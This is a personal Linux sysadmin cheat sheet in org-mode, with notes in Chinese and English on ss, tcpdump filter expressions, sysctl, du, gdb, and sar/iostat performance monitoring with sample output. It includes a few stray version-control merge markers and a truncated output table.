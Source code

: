 * pidof
pidof 任务名
获取指定任务的pid
* ss
ss命令可以用来获取socket统计信息，它可以显示和netstat类似的内容。但ss的优势在于它能够显示更多更详细的有关TCP和连接状态的信息，而且比netstat更快速更高效。
-h, --help 帮助信息
-V, --version 程序版本信息
-n, --numeric 不解析服务名称
-r, --resolve        解析主机名
-a, --all 显示所有套接字（sockets）
-l, --listening 显示监听状态的套接字（sockets）
-o, --options        显示计时器信息
-e, --extended       显示详细的套接字（sockets）信息
-m, --memory         显示套接字（socket）的内存使用情况
-p, --processes 显示使用套接字（socket）的进程
-i, --info 显示 TCP内部信息
-s, --summary 显示套接字（socket）使用概况
-4, --ipv4           仅显示IPv4的套接字（sockets）
-6, --ipv6           仅显示IPv6的套接字（sockets）
-0, --packet         显示 PACKET 套接字（socket）
-t, --tcp 仅显示 TCP套接字（sockets）
-u, --udp 仅显示 UCP套接字（sockets）
-d, --dccp 仅显示 DCCP套接字（sockets）
-w, --raw 仅显示 RAW套接字（sockets）
-x, --unix 仅显示 Unix套接字（sockets）
-f, --family=FAMILY  显示 FAMILY类型的套接字（sockets），FAMILY可选，支持  unix, inet, inet6, link, netlink
-A, --query=QUERY, --socket=QUERY
      QUERY := {all|inet|tcp|udp|raw|unix|packet|netlink}[,QUERY]
-D, --diag=FILE     将原始TCP套接字（sockets）信息转储到文件
 -F, --filter=FILE   从文件中都去过滤器信息
       FILTER := [ state TCP-STATE ] [ EXPRESSION ]


>>>>>>> .r272

* lwp-request
echo "a=&b=&=" | lwp-request -m POST http://xxxxx
* tcpdump用法
  tcpdump相比较wireshark是很轻量的东东，而且机器一般默认安装又不需要图形界面。
  需要注意tcpdump默认获取一个包的前96字节，如果你想看更多，需要使用-s 选项。建议使用-s 0， 会获取所有的数据。
  常用的选项：
-i any : Listen on all interfaces just to see if you're seeing any traffic.
-n : Don't resolve hostnames.
-nn : Don't resolve hostnames or port names.
-X : Show the packet's contents in both hex and ASCII.
-XX : Same as -X, but also shows the ethernet header.
-v, -vv, -vvv : Increase the amount of packet information you get back.
-c : Only get x number of packets and then stop.
-s : Define the size of the capture (use -s0 unless you are intentionally capturing less.)
-S : Print absolute sequence numbers.
-e : Get the ethernet header as well.
-q : Show less protocol information.
-E : Decrypt IPSEC traffic by providing an encryption key.
-s : Set the snaplength, i.e. the amount of data that is being captured in bytes
-c : Only capture x number of packets, e.g. 'tcpdump -c 3'
基本用法：
1. Basic communication
#+begin_src c
   #tcpdump -nS
#+end_src

2. Basic communication (very verbose)
   不再名字解释，
#+begin_example
   #tcpdump -nnvvS
#+end_example
3. A deeper look at the traffic
#+begin_example
   #tcpdump -nnvvXS
#+end_example
4. Heavy packet viewing
//最后's'增加抓取长度，抓取整个包
#+begin_example
#tcpdump -nnvvXSs 1514
#+end_example

下面我们使用上面的选项，仅抓取两个(-c2)ICMP包。
#+begin_example
hermes root # tcpdump -nnvXSs 0 -c2 icmp
tcpdump: listening on eth0, link-type EN10MB (Ethernet), 23:11:10.370321 IP 
(tos 0x20, ttl  48, id 34859, offset 0, flags [none], length: 84) 
69.254.213.43 > 72.21.34.42: icmp 64: echo request seq 0

        0x0000:  4520 0054 882b 0000 3001 7cf5 45fe d52b  E..T.+..0.|.E..+
        0x0010:  4815 222a 0800 3530 272a 0000 25ff d744  H."*..50'*..%..D
        0x0020:  ae5e 0500 0809 0a0b 0c0d 0e0f 1011 1213  .^..............
        0x0030:  1415 1617 1819 1a1b 1c1d 1e1f 2021 2223  .............!"#
        0x0040:  2425 2627 2829 2a2b 2c2d 2e2f 3031 3233  $%&'()*+,-./0123
        0x0050:  3435 3637                                4567
23:11:10.370344 IP (tos 0x20, ttl  64, id 35612, offset 0, flags [none], 
length: 84) 72.21.34.42 > 69.254.213.43: icmp 64: echo reply seq 0
        0x0000:  4520 0054 8b1c 0000 4001 6a04 4815 222a  E..T....@.j.H."*
        0x0010:  45fe d52b 0000 3d30 272a 0000 25ff d744  E..+..=0'*..%..D
        0x0020:  ae5e 0500 0809 0a0b 0c0d 0e0f 1011 1213  .^..............
        0x0030:  1415 1617 1819 1a1b 1c1d 1e1f 2021 2223  .............!"#
        0x0040:  2425 2627 2829 2a2b 2c2d 2e2f 3031 3233  $%&'()*+,-./0123
        0x0050:  3435 3637                                4567
2 packets captured
2 packets received by filter
0 packets dropped by kernel
hermes root # 
#+end_example

Common Syntax
表达式允许你trim out不同的数据通讯，准确找到你需要的数据。
掌握表达式并且学会创造性组合。
有三种类型的表达式：type、dir、proto
type的选项：host，net, port
dir的选项： src, dst, src or dst, src and dst

host //查看这个IP相关的通讯
#+begin_example
#tcpdump host 1.2.3.4
#+end_example

src, dst //查看指定来源或者目的通讯（排除了另一个方向的通讯）
#+begin_example
#tcpdump src 2.3.4.5
#tcpdump dst 3.4.5.6
#+end_example

net //获取这个网络，使用CIDR表示法
#+begin_example
#tcpdump net 1.2.3.0/24
#+end_example

proto // 用于tcp, udp, icmp
#+begin_example
# tcpdump icmp
#+end_example

src port, dst port //使用源端口或者目的端口过滤
#+begin_example
# tcpdump src port 1025 
# tcpdump dst port 389
#+end_example

src/dst, port, protocol //组合三种
#+begin_example
#tcpdump src port 1025 and tcp 
#tcpdump udp and src port 53
#+end_example

你也可以过滤端口范围
Port Ranges //see traffic to any port in a range
#+begin_example
tcpdump portrange 21-23
#+end_example

Packet Size Filter //只能看小于某个值，或者大于某个值的包（单位bytes)
#+begin_example
tcpdump less 32
tcpdump greater 128
tcpdump > 32
tcpdump <= 128
#+end_example

写到文件中：
tcpdump使用-w选项：允许你把抓取的数据写到一个文件中，
然后使用-r选项，读取文件。

捕获所有80端的通讯数据到一个文件
#+begin_example
#tcpdump -s 1514 port 80 -w capture_file
#+end_example

读取通讯数据到tcpdump中
#+begin_example
#tcpdump -r capture_file
#+end_example

逻辑表达式
1. 与: and &&
2. 或: or ||
3. 非: not !

例子
#+begin_example
//源 10.5.2.3 目的端口 3389
tcpdump -nnvvS and src 10.5.2.3 and dst port 3389
// 从192.168 网络发往 10或者172.16网络
tcpdump -nvX src net 192.168.0.0/16 and dst net 10.0.0.0/8 or 172.16.0.0/16
// 从 172.16网络发往 192.168.0.2的非ICMP
tcpdump -nvvXSs 1514 dst 192.168.0.2 and src net 172.16.0.0/16 and not icmp

tcpdump -vv src mars and not dst port 22
#+end_example

Grouping
下面是不对的。
# Traffic that's from 10.0.2.4 AND destined for ports 3389 or 22 (incorrect)
tcpdump src 10.0.2.4 and (dst port 3389 or 22)
需要使用\转义小括号，或者使用单引号，如下
tcpdump 'src 10.0.2.4 and (dst port 3389 or 22)'

** example
*** Filter on protocol (ICMP) and protocol-specific fields (ICMP type) 

 Capture all ICMP with some exceptions. For example, if a host runs lots of pings (SmokePing for example), it is useful to suppress ICMP echo requests and replies from dumped packets: 

: root@myhost:~# tcpdump -n icmp and 'icmp[0] != 8 and icmp[0] != 0'

 Same command can be used with predefined header field offset (icmptype) and ICMP type field values (icmp-echo and icmp-echoreply): 

: root@myhost:~# tcpdump -n icmp and icmp[icmptype] != icmp-echo and icmp[icmptype] != icmp-echoreply

*** Filter on TOS field 

 Capture all IP packets with a non-zero TOS field (one byte TOS field is at offset 1 in IP header): 

: root@myhost:~# tcpdump -v -n ip and ip[1]!=0

*** Filter on TTL field 

 Capture all IP packets with TTL less than some value (on byte TTL field is at offset 8 in IP header): 

: root@myhost:~# tcpdump -v ip and 'ip[8]<2'

*** Filter on TCP flags (SYN/ACK) 

 Catch TCP SYN packets: 

: root@myhost:~# tcpdump -n tcp and port 80 and 'tcp[tcpflags] & tcp-syn == tcp-syn'

 In the example above, all packets with TCP SYN flag set are captured.
 Other flags (ACK, for example) might be set also. Packets which have only TCP SYN flags set, can be captured like this: 
: root@myhost:~# tcpdump tcp and port 80 and 'tcp[tcpflags] == tcp-syn'

 Catch TCP SYN/ACK packets (typically, responses from servers): 
: root@myhost:~# tcpdump -n tcp and 'tcp[tcpflags] & (tcp-syn|tcp-ack) == (tcp-syn|tcp-ack)'

 Same thing: 
: root@myhost:~# tcpdump -n tcp and 'tcp[tcpflags] & tcp-syn == tcp-syn' and 'tcp[tcpflags] & tcp-ack == tcp-ack'

*** Catch ARP packets 

: root@myhost:~# tcpdump -vv -e -nn ether proto 0x0806

*** Filter on IP packet length 

 Catch packets of a specified length (IP packet length (16 bits) is located at offset 2 in IP header): 

: root@myhost:~# tcpdump -l icmp and '(ip[2:2]>50)' -w - |tcpdump -r - -v ip and '(ip[2:2]<60)'
tcpdump: pcap_loop: error reading dump file: Interrupted system call

 Remark: due to some bug in tcpdump, the following command doesn't catch packets as expected: 
: root@myhost:~# tcpdump -v -n icmp and '(ip[2:2]>50)' and '(ip[2:2]<60)'

 Because of this, two tcpdumps were used in the example above (tcpdump -l ... -w - |tcpdump -r -...).
 Option -l is needed to force first tcpdump program to output captured data imeadiately to the second program. 

*** Filter on encapsulated content (ICMP within PPPoE) 

 Capturing packets from PPPoE session. For example: we mirror a link that connects xDSL modem and home PC or router. 
 Mirrored packets are ethernet frames with PPPoE/IP packets encapsulated. 
 In the following example, we are looking for ICMP packets in PPPoE frames. A simple command like 
: root@myhost:~# tcpdump -v -n icmp
 will not produce expected results, because packets that we monitor are being encapsulated into a PPPoE frames. 
 Of course, tcpdump can't locate IP protocol == ICMP at normal offset in an ethernet frame. 
 We must therefore take into account the additional headers: 14 bytes for ethernet and 8 bytes for PPPoE. 
 IP protocol is located at offset 9 in the IP header, which gives us offset 31 in the mirrored ethernet frame.
 Therefore, ICMP packets (protokol 1) are captured with 
: root@myhost:~# tcpdump -v -n ether[31] = 1

Simultaneous output to dump file and (decoded) standard output 

 You may want to dump packets to a file, but still see the decoded headers "live" on your terminal.
 While this is not supported directly by tcpdump you can use the powerful pipe mechanism to obtain this effect: 

: leinen@bonadea[leinen]; sudo tcpdump -s 0 -i tun0 -c 10 -w - -U | tee foo.pcap | tcpdump -n -r -

: leinen@bonadea[leinen]; ls -l foo.pcap
-rw-r--r-- 1 leinen leinen 1184 2008-11-28 11:04 foo.pcap

 Explanation: The first tcpdump call captures the packets, and dumps the (binary) data to standard output (-w -).
 The -U (unbuffered) flag causes each packet to be written out immediately, circumventing the normal output buffering.
 This preserves the real-time characteristics better. The binary packets are piped to the tee command,
 which writes them to a file (foo.pcap) and at the same time outputs them again on standard output. From there, they are decoded using tcpdump -r -.


*** other
 To print all packets arriving at or departing from sundown:

    tcpdump host sundown

To print traffic between helios and either hot or ace:

    tcpdump host helios and \( hot or ace \)

To print all IP packets between ace and any host except helios:

    tcpdump ip host ace and not helios

To print all traffic between local hosts and hosts at Berkeley:

    tcpdump net ucb-ether

To print all ftp traffic through internet gateway snup: (note that the expression is quoted to prevent the shell from (mis-)interpreting the parentheses):

    tcpdump 'gateway snup and (port ftp or ftp-data)'

To print traffic neither sourced from nor destined for local hosts (if you gateway to one other net, this stuff should never make it onto your local net).

    tcpdump ip and not net localnet

To print the start and end packets (the SYN and FIN packets) of each TCP conversation that involves a non-local host.

    tcpdump 'tcp[tcpflags] & (tcp-syn|tcp-fin) != 0 and not src and dst net localnet'

To print all IPv4 HTTP packets to and from port 80, i.e. print only packets that contain data, not, for example, SYN and FIN packets and ACK-only packets. (IPv6 is left as an exercise for the reader.)
#+begin_example
    tcpdump 'tcp port 80 and (((ip[2:2] - ((ip[0]&0xf)<<2)) - ((tcp[12]&0xf0)>>2)) != 0)'
#+end_example
To print IP packets longer than 576 bytes sent through gateway snup:
#+begin_example
    tcpdump 'gateway snup and ip[2:2] > 576'
#+end_example
To print IP broadcast or multicast packets that were not sent via Ethernet broadcast or multicast:
#+begin_example
    tcpdump 'ether[0] & 1 = 0 and ip[16] >= 224'
#+end_example
To print all ICMP packets that are not echo requests/replies (i.e., not ping packets):

    tcpdump 'icmp[icmptype] != icmp-echo and icmp[icmptype] != icmp-echoreply'



* 使用telnet测试端口是否联通
=======

* sysctl
** 查看所有可读变量：
  % sysctl -a
** 临时修改一个配置
  % sysctl -w varible=value
** 永久需要修改：
  1 修改/etc/sysctl.conf
  2 执行sysctl -p

* 查看目录占用的硬盘大小
  du -s du -k
  查看占用空间最大
  du -S | sort -n

* gdb
** 调试带参数的程序
  gdb --args ./testprg arg1 arg2 ....
  或者
  r arg1 arg2
  OR
  set arg arg1 arg2
  run
** 线程
   thread n(n为线程号)

   where 查看调用栈
* sar
Using sar you can monitor performance of various Linux subsystems (CPU, Memory, I/O..) in real time.

Using sar, you can also collect all performance data on an on-going basis, store them, and do historical analysis to identify bottlenecks.

Sar is part of the sysstat package.

    Collective CPU usage
    Individual CPU statistics
    Memory used and available
    Swap space used and available
    Overall I/O activities of the system
    Individual device I/O activities
    Context switch statistics
    Run queue and load average data
    Network statistics
    Report sar data from a specific time


 install sysstat
(or)
yum install sysstat
(or)
rpm -ivh sysstat-10.0.0-1.i586.rpm

Install Sysstat from Source

Following are the other sysstat utilities.

    sar collects and displays ALL system activities statistics.
    sadc stands for “system activity data collector”. This is the sar backend tool that does the data collection.
    sa1 stores system activities in binary data file. sa1 depends on sadc for this purpose. sa1 runs from cron.
    sa2 creates daily summary of the collected statistics. sa2 runs from cron.
    sadf can generate sar report in CSV, XML, and various other formats. Use this to integrate sar data with other tools.
    iostat generates CPU, I/O statistics
    mpstat displays CPU statistics.
    pidstat reports statistics based on the process id (PID)
    nfsiostat displays NFS I/O statistics.
    cifsiostat generates CIFS statistics.


Collect the sar statistics using cron job – sa1 and sa2

Create sysstat file under /etc/cron.d directory that will collect the historical sar data.

# vi /etc/cron.d/sysstat
*/10 * * * * root /usr/local/lib/sa/sa1 1 1
53 23 * * * root /usr/local/lib/sa/sa2 -A

If you’ve installed sysstat from source, the default location of sa1 and sa2 is /usr/local/lib/sa. If you’ve installed using your distribution update method (for example: yum, up2date, or apt-get), this might be /usr/lib/sa/sa1 and /usr/lib/sa/sa2.

Note: To understand cron entries, read Linux Crontab: 15 Awesome Cron Job Examples.
/usr/local/lib/sa/sa1

    This runs every 10 minutes and collects sar data for historical reference.
    If you want to collect sar statistics every 5 minutes, change */10 to */5 in the above /etc/cron.d/sysstat file.
    This writes the data to /var/log/sa/saXX file. XX is the day of the month. saXX file is a binary file. You cannot view its content by opening it in a text editor.
    For example, If today is 26th day of the month, sa1 writes the sar data to /var/log/sa/sa26
    You can pass two parameters to sa1: interval (in seconds) and count.
    In the above crontab example: sa1 1 1 means that sa1 collects sar data 1 time with 1 second interval (for every 10 mins).

/usr/local/lib/sa/sa2

    This runs close to midnight (at 23:53) to create the daily summary report of the sar data.
    sa2 creates /var/log/sa/sarXX file (Note that this is different than saXX file that is created by sa1). This sarXX file created by sa2 is an ascii file that you can view it in a text editor.
    This will also remove saXX files that are older than a week. So, write a quick shell script that runs every week to copy the /var/log/sa/* files to some other directory to do historical sar data analysis.

II. 10 Practical Sar Usage Examples

There are two ways to invoke sar.

    sar followed by an option (without specifying a saXX data file). This will look for the current day’s saXX data file and report the performance data that was recorded until that point for the current day.
    sar followed by an option, and additionally specifying a saXX data file using -f option. This will report the performance data for that particular day. i.e XX is the day of the month.

In all the examples below, we are going to explain how to view certain performance data for the current day. To look for a specific day, add “-f /var/log/sa/saXX” at the end of the sar command.

All the sar command will have the following as the 1st line in its output.

$ sar -u
Linux 2.6.18-194.el5PAE (dev-db)        03/26/2011      _i686_  (8 CPU)

    Linux 2.6.18-194.el5PAE – Linux kernel version of the system.
    (dev-db) – The hostname where the sar data was collected.
    03/26/2011 – The date when the sar data was collected.
    _i686_ – The system architecture
    (8 CPU) – Number of CPUs available on this system. On multi core systems, this indicates the total number of cores.


1. CPU Usage of ALL CPUs (sar -u)

This gives the cumulative real-time CPU usage of all CPUs. “1 3″ reports for every 1 seconds a total of 3 times. Most likely you’ll focus on the last field “%idle” to see the cpu load.

$ sar -u 1 3
Linux 2.6.18-194.el5PAE (dev-db)        03/26/2011      _i686_  (8 CPU)

01:27:32 PM       CPU     %user     %nice   %system   %iowait    %steal     %idle
01:27:33 PM       all      0.00      0.00      0.00      0.00      0.00    100.00
01:27:34 PM       all      0.25      0.00      0.25      0.00      0.00     99.50
01:27:35 PM       all      0.75      0.00      0.25      0.00      0.00     99.00
Average:          all      0.33      0.00      0.17      0.00      0.00     99.50

Following are few variations:
    sar -u Displays CPU usage for the current day that was collected until that point.
    sar -u 1 3 Displays real time CPU usage every 1 second for 3 times.
    sar -u ALL Same as “sar -u” but displays additional fields.
    sar -u ALL 1 3 Same as “sar -u 1 3″ but displays additional fields.
    sar -u -f /var/log/sa/sa10 Displays CPU usage for the 10day of the month from the sa10 file.

2. CPU Usage of Individual CPU or Core (sar -P)

If you have 4 Cores on the machine and would like to see what the individual cores are doing, do the following.

“-P ALL” indicates that it should displays statistics for ALL the individual Cores.

In the following example under “CPU” column 0, 1, 2, and 3 indicates the corresponding CPU core numbers.

$ sar -P ALL 1 1
Linux 2.6.18-194.el5PAE (dev-db)        03/26/2011      _i686_  (8 CPU)

01:34:12 PM       CPU     %user     %nice   %system   %iowait    %steal     %idle
01:34:13 PM       all     11.69      0.00      4.71      0.69      0.00     82.90
01:34:13 PM         0     35.00      0.00      6.00      0.00      0.00     59.00
01:34:13 PM         1     22.00      0.00      5.00      0.00      0.00     73.00
01:34:13 PM         2      3.00      0.00      1.00      0.00      0.00     96.00
01:34:13 PM         3      0.00      0.00      0.00      0.00      0.00    100.00

“-P 1″ indicates that it should displays statistics only for the 2nd Core. (Note that Core number starts from 0).

$ sar -P 1 1 1
Linux 2.6.18-194.el5PAE (dev-db)        03/26/2011      _i686_  (8 CPU)

01:36:25 PM       CPU     %user     %nice   %system   %iowait    %steal     %idle
01:36:26 PM         1      8.08      0.00      2.02      1.01      0.00     88.89

Following are few variations:

    sar -P ALL Displays CPU usage broken down by all cores for the current day.
    sar -P ALL 1 3 Displays real time CPU usage for ALL cores every 1 second for 3 times (broken down by all cores).
    sar -P 1 Displays CPU usage for core number 1 for the current day.
    sar -P 1 1 3 Displays real time CPU usage for core number 1, every 1 second for 3 times.
    sar -P ALL -f /var/log/sa/sa10 Displays CPU usage broken down by all cores for the 10day day of the month from sa10 file.

3. Memory Free and Used (sar -r)

This reports the memory statistics. “1 3″ reports for every 1 seconds a total of 3 times. Most likely you’ll focus on “kbmemfree” and “kbmemused” for free and used memory.

$ sar -r 1 3
Linux 2.6.18-194.el5PAE (dev-db)        03/26/2011      _i686_  (8 CPU)

07:28:06 AM kbmemfree kbmemused  %memused kbbuffers  kbcached  kbcommit   %commit  kbactive   kbinact
07:28:07 AM   6209248   2097432     25.25    189024   1796544    141372      0.85   1921060     88204
07:28:08 AM   6209248   2097432     25.25    189024   1796544    141372      0.85   1921060     88204
07:28:09 AM   6209248   2097432     25.25    189024   1796544    141372      0.85   1921060     88204
Average:      6209248   2097432     25.25    189024   1796544    141372      0.85   1921060     88204

Following are few variations:

    sar -r
    sar -r 1 3
    sar -r -f /var/log/sa/sa10

4. Swap Space Used (sar -S)

This reports the swap statistics. “1 3″ reports for every 1 seconds a total of 3 times. If the “kbswpused” and “%swpused” are at 0, then your system is not swapping.

$ sar -S 1 3
Linux 2.6.18-194.el5PAE (dev-db)        03/26/2011      _i686_  (8 CPU)

07:31:06 AM kbswpfree kbswpused  %swpused  kbswpcad   %swpcad
07:31:07 AM   8385920         0      0.00         0      0.00
07:31:08 AM   8385920         0      0.00         0      0.00
07:31:09 AM   8385920         0      0.00         0      0.00

Average:      8385920         0      0.00         0      0.00

Following are few variations:

    sar -S
    sar -S 1 3
    sar -S -f /var/log/sa/sa10

Notes:

    Use “sar -R” to identify number of memory pages freed, used, and cached per second by the system.
    Use “sar -H” to identify the hugepages (in KB) that are used and available.
    Use “sar -B” to generate paging statistics. i.e Number of KB paged in (and out) from disk per second.
    Use “sar -W” to generate page swap statistics. i.e Page swap in (and out) per second.

5. Overall I/O Activities (sar -b)

This reports I/O statistics. “1 3″ reports for every 1 seconds a total of 3 times.

Following fields are displays in the example below.

    tps – Transactions per second (this includes both read and write)
    rtps – Read transactions per second
    wtps – Write transactions per second
    bread/s – Bytes read per second
    bwrtn/s – Bytes written per second

$ sar -b 1 3

Linux 2.6.18-194.el5PAE (dev-db)        03/26/2011      _i686_  (8 CPU)

01:56:28 PM       tps      rtps      wtps   bread/s   bwrtn/s
01:56:29 PM    346.00    264.00     82.00   2208.00    768.00
01:56:30 PM    100.00     36.00     64.00    304.00    816.00
01:56:31 PM    282.83     32.32    250.51    258.59   2537.37
Average:       242.81    111.04    131.77    925.75   1369.90

Following are few variations:

    sar -b
    sar -b 1 3
    sar -b -f /var/log/sa/sa10

Note: Use “sar -v” to display number of inode handlers, file handlers, and pseudo-terminals used by the system.
6. Individual Block Device I/O Activities (sar -d)

To identify the activities by the individual block devices (i.e a specific mount point, or LUN, or partition), use “sar -d”

$ sar -d 1 1
Linux 2.6.18-194.el5PAE (dev-db)        03/26/2011      _i686_  (8 CPU)

01:59:45 PM       DEV       tps  rd_sec/s  wr_sec/s  avgrq-sz  avgqu-sz     await     svctm     %util
01:59:46 PM    dev8-0      1.01      0.00      0.00      0.00      0.00      4.00      1.00      0.10
01:59:46 PM    dev8-1      1.01      0.00      0.00      0.00      0.00      4.00      1.00      0.10
01:59:46 PM dev120-64      3.03     64.65      0.00     21.33      0.03      9.33      5.33      1.62
01:59:46 PM dev120-65      3.03     64.65      0.00     21.33      0.03      9.33      5.33      1.62
01:59:46 PM  dev120-0      8.08      0.00    105.05     13.00      0.00      0.38      0.38      0.30
01:59:46 PM  dev120-1      8.08      0.00    105.05     13.00      0.00      0.38      0.38      0.30
01:59:46 PM dev120-96      1.01      8.08      0.00      8.00      0.01      9.00      9.00      0.91
01:59:46 PM dev120-97      1.01      8.08      0.00      8.00      0.01      9.00     

In the above example “DEV” indicates the specific block device.

For example: “dev53-1″ means a block device with 53 as major number, and 1 as minor number.

The device name (DEV column) can display the actual device name (for example: sda, sda1, sdb1 etc.,), if you use the -p option (pretty print) as shown below.

$ sar -p -d 1 1
Linux 2.6.18-194.el5PAE (dev-db)        03/26/2011      _i686_  (8 CPU)

01:59:45 PM       DEV       tps  rd_sec/s  wr_sec/s  avgrq-sz  avgqu-sz     await     svctm     %util
01:59:46 PM       sda      1.01      0.00      0.00      0.00      0.00      4.00      1.00      0.10
01:59:46 PM      sda1      1.01      0.00      0.00      0.00      0.00      4.00      1.00      0.10
01:59:46 PM      sdb1      3.03     64.65      0.00     21.33      0.03      9.33      5.33      1.62
01:59:46 PM      sdc1      3.03     64.65      0.00     21.33      0.03      9.33      5.33      1.62
01:59:46 PM      sde1      8.08      0.00    105.05     13.00      0.00      0.38      0.38      0.30

01:59:46 PM      sdf1      8.08      0.

00    105.05     13.00      0.00      0.38      0.38      0.30
01:59:46 PM      sda2      1.01      8.08      0.00      8.00      0.01      9.00      9.00      0.91
01:59:46 PM      sdb2      1.01      8.08      0.00      8.00      0.01      9.00      9.00      0.91

Following are few variations:

    sar -d
    sar -d 1 3
    sar -d -f /var/log/sa/sa10
    sar -p -d

7. Display context switch per second (sar -w)

This reports the total number of processes created per second, and total number of context switches

$ sar -w 1 3
Linux 2.6.18-194.el5PAE (dev-db)        03/26/2011      _i686_  (8 CPU)

08:32:24 AM    proc/s   cswch/s
08:32:25 AM      3.00     53.00
08:32:26 AM      4.00     61.39
08:32:27 AM      2.00     57.00

Following are few variations:

    sar -w
    sar -w 1 3
    sar -w -f /var/log/sa/sa10

8. Reports run queue and load average (sar -q)

This reports the run queue size and load average of last 1 minute, 5 minutes, and 15 minutes. “1 3″ reports for every 1 seconds a total of 3 times.

$ sar -q 1 3
Linux 2.6.18-194.el5PAE (dev-db)        03/26/2011      _i686_  (8 CPU)

06:28:53 AM   runq-sz  plist-sz   ldavg-1   ldavg-5  ldavg-15   blocked
06:28:54 AM         0       230      2.00      3.00      5.00         0
06:28:55 AM         2       210      2.01      3.15      5.15         0
06:28:56 AM         2       230      2.12      3.12      5.12         0
Average:            3       230      3.12      3.12      5.12         0

Note: The “blocked” column displays the number of tasks that are currently blocked and

waiting for I/O operation to complete.

Following are few variations:

    sar -q
    sar -q 1 3
    sar -q -f /var/log/sa/sa10

9. Report network statistics (sar -n)

This reports various network statistics. For example: number of packets received (transmitted) through the network card, statistics of packet failure etc.,. “1 3″ reports for every 1 seconds a total of 3 times.

sar -n KEYWORD

KEYWORD can be one of the following:

    DEV – Displays network devices vital statistics for eth0, eth1, etc.,
    EDEV – Display network device failure statistics
    NFS – Displays NFS client activities
    NFSD – Displays NFS server activities
    SOCK – Displays sockets in use for IPv4
    IP – Displays IPv4 network traffic
    EIP – Displays IPv4 network errors
    ICMP – Displays ICMPv4 network traffic
    EICMP – Displays ICMPv4 network errors
    TCP – Displays TCPv4 network traffic
    ETCP – Displays TCPv4 network errors
    UDP – Displays UDPv4 network traffic
    SOCK6, IP6, EIP6, ICMP6, UDP6 are for IPv6

    ALL – This displays all of the above information. The output will be very long.

$ sar -n DEV 1 1
Linux 2.6.18-194.el5PAE (dev-db)        03/26/2011      _i686_  (8 CPU)

01:11:13 PM     IFACE   rxpck/s   txpck/s   rxbyt/s   txbyt/s   rxcmp/s   txcmp/s  rxmcst/s
01:11:14 PM        lo      0.00      0.00      0.00      0.00      0.00      0.00      0.00
01:11:14 PM      eth0    342.57    342.57  93923.76 141773.27      0.00      0.00      0.00
01:11:14 PM      eth1      0.00      0.00      0.00      0.00      0.00      0.00      0.00

10. Report Sar Data Using Start Time (sar -s)

When you view historic sar data from the /var/log/sa/saXX file using “sar -f” option, it displays all the sar data for that specific day starting from 12:00 a.m for that day.

Using “-s hh:mi:ss” option, you can specify the start time. For example, if you specify “sar -s 10:00:00″, it will display the sar data starting from 10 a.m (instead of starting from midnight) as shown below.

You can combine -s option with other sar option.

For example, to report the load average on 26th of this month starting from 10 a.m in the morning, combine the -q and -s option as shown below.

$ sar -q -f /var/log/sa/sa23 -s 10:00:01
Linux 2.6.18-194.el5PAE (dev-db)        03/26/2011      _i686_  (8 CPU)

10:00:01 AM   runq-sz  plist-sz   ldavg-1   ldavg-5  ldavg-15   blocked
10:10:01 AM         0       127      2.00      3.00      5.00         0
10:20:01 AM         0       127      2.00      3.00      5.00         0
...
11:20:01 AM         0       127      5.00      3.00      3.00         0
12:00:01 PM         0       127      4.00      2.00      1.00         0

There is no option to limit the end-time. You just have to get creative and use head command as shown below.

For example, starting from 10 a.m, if you want to see 7 entries, you have to pipe the above output to “head -n 10″.

$ sar -q -f /var/log/sa/sa23 -s 10:00:01 | head -n 10
Linux 2.6.18-194.el5PAE (dev-db)        03/26/2011      _i686_  (8 CPU)

10:00:01 AM   runq-sz  plist-sz   ldavg-1   ldavg-5  ldavg-15   blocked
10:10:01 AM         0       127      2.00      3.00      5.00         0
10:20:01 AM         0       127      2.00      3.00      5.00         0
10:30:01 AM         0       127      3.00      5.00      2.00         0
10:40:01 AM         0       127      4.00      2.00      1.00         2
10:50:01 AM         0       127      3.00      5.00      5.00         0
11:00:01 AM         0       127      2.00      1.00      6.00         0
11:10:01 AM         0       127      1.00      3.00      7.00         2

There is lot more to cover in Linux performance monitoring and tuning. We are only getting started. More articles to come in the performance series.

* Iostat

iostat reports CPU, disk I/O, and NFS statistics. The following are some of iostat command examples.

Iostat without any argument displays information about the CPU usage, 
and I/O statistics about all the partitions on the system as shown below.

$ iostat
Linux 2.6.32-100.28.5.el6.x86_64 (dev-db)       07/09/2011

avg-cpu:  %user   %nice %system %iowait  %steal   %idle
           5.68    0.00    0.52    2.03    0.00   91.76

Device:            tps   Blk_read/s   Blk_wrtn/s   Blk_read   Blk_wrtn
sda             194.72      1096.66      1598.70 2719068704 3963827344
